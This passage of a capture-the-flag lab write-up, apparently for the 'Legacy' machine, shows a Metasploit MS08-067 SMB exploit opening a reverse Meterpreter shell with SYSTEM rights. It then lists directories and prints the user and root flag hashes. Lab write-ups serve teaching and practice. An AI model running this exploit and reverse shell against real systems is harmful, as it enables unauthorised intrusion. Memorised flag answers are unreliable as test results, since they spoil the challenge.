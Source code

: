 ```bash
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.4:1031 ) at 2022-04-06 19:21:52 -0400

meterpreter >getuid
Server username: NT AUTHORITY\SYSTEM

```
With this system-wide authority, the world is our oyster. We can use `cd` to change directories and identify where the user flag might be. We see one relevant user, john, and we are easily able to `cd` into his Desktop directory where we find `user.txt`.   

```bash
meterpreter > cd "C:/Documents and Settings"
meterpreter > ls
Listing: C:\Documents and Settings
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2017-03-16 02:07:21 -0400  Administrator
040777/rwxrwxrwx  0     dir   2017-03-16 01:29:48 -0400  All Users
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:37 -0400  Default User
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:52 -0400  LocalService
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:43 -0400  NetworkService
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:42 -0400  john

meterpreter > cd john/Desktop
meterpreter > ls
Listing: C:\Documents and Settings\john\Desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:19:49 -0400  user.txt

meterpreter > cat user.txt
e69af0e4f443de7e36876fda4ec7644f

```
We don't need to do any privelege escalation, so we similarly move to the Administrator desktop to grab `root.txt`.

```bash
meterpreter > cd ../..
meterpreter > cd Administrator/Desktop
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:50 -0400  root.txt

meterpreter > cat root.txt
993442d258b0e0ec917cae9e695d5713
```
**Success!** With both of these flags we have completed Legacy!